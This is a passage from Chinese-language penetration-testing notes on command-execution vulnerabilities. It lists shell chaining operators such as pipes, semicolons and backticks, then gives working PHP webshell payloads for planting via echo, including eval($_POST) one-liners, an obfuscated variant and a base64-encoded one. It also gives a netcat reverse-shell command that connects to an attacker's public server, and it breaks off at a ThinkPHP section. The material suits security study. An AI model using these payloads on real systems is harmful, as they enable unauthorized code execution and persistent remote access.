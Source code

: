 ### 四、远程系统命令执行

* cmd1|cmd2	→	连续执行两个命令，且报错不中断
* cmd1;cmd2	→	连续执行两个命令，且报错不中断
* cmd1||cmd2	→	仅在cmd1执行失败的情况下，才会执行cmd2
* cmd1&&cmd2	→	仅在cmd1执行成功的情况下，才会执行cmd2
* cmd1\$(cmd2)
* \`cmd\`	→	执行系统命令

### 五、<span id='写shell'>利用命令执行漏洞写Shell</span>

1. 上传shell：注意引号的问题，双引号中的$字符要添加转义符号（方式一、二、三利用system函数执行）

   > 方式一：`echo "<?php @eval(\$_POST['pass']); ?>" > 保存的相对路径`
   >
   > 方式二：`echo '<?php ($_=@$_GET[2]).@_($_POST[1])?>'> 保存的相对路径`
   >
   > > 该方式需要在使用时传参，通过GET传参获取要执行的命令（一般为assert或system），通过POST传参获取命令参数
   >
   > **方式三**：`echo "PD9waHAgQGV2YWwoJF9QT1NUWydwYXNzJ10pOyA/Pg==" | base64 -d  > 保存的相对路径`
   >
   > ![image-20210903141734734](../images/12_命令执行漏洞/image-20210903141734734.png)
   >
   > 方式四：使用`file_put_contents`函数直接写入文件
   >
   > > file_put_contents：第一个参数问文件名，第二个参数为文件内容
   >
   > ![image-20210903142529574](../images/12_命令执行漏洞/image-20210903142529574.png)

2. nc反弹shell（利用system函数执行）

   > `mkfifo /tmp/pipe;sh /tmp/pipe | nc 公网服务器ip 监听的端口 > /tmp/pipe`

### 六、ThinkPHP漏洞

1. ThinkPHP的介绍：ThinkPHP简称TP框架，是免费开源的、轻量级的、简单快速且敏捷的PHP框架

2. ThinkPHP的特征：


[^注1]:  POC：Proof of Concept，中文意思是“观点证明”。这个短语会在漏洞报告中使用，漏洞报告中的POC则是一段说明或者一个攻击的样例，使得读者能够确认这个漏洞是真实存在的。
[^注2]: 序列化分为两大部分：序列化和反序列化。序列化是这个过程的第一部分，将数据分解成字节流，以便存储在文件中或在网络上传输。反序列化就是打开字节流并重构对象。对象序列化不仅要将基本数据类型转换成字节表示，有时还要恢复数据。恢复数据要求有恢复数据的对象实例。